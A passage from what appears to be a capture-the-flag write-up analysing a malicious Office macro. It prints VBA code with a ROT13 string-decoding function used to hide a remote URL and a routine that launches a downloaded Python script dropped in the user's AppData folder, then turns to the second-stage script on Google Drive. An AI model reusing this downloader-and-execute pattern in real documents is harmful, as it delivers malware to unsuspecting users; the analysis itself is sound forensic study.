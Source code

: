 ```
        ' Run the Python script
        RunPython
    Else
        MsgBox "Failed to download file.", vbExclamation
    End If
End Sub

Function j2JjS(k2KkS As String) As String
    Dim l2LlS As String
    Dim m2MmS As Integer
    For m2MmS = 1 To Len(k2KkS)
        Select Case Asc(Mid(k2KkS, m2MmS, 1))
            Case 65 To 77, 97 To 109
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) + 13)
            Case 78 To 90, 110 To 122
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) - 13)
            Case Else
                l2LlS = l2LlS & Mid(k2KkS, m2MmS, 1)
        End Select
    Next m2MmS
    j2JjS = l2LlS
End Function

Sub RunPython()
    Dim PythonExe As String
    Dim PythonScript As String
    Dim Command As String
    Dim username As String

    username = Environ("USERNAME")

    PythonExe = "C:\Users\" & username & "\AppData\Local\Microsoft\WindowsApps\python3.exe"
    PythonScript = "C:\Users\" & username & "\AppData\Local\pp.py"
    Command = PythonExe & " " & PythonScript

    Shell Command, vbNormalFocus
End Sub
```

It also seems that the remote server URL was encoded in hex and ROT13. Decoding it, we can proceed to the next step which was to analyze the Python script stored in the Google Drive.

![spy1](/assets/posts/l3akctf2024/spy1.png)
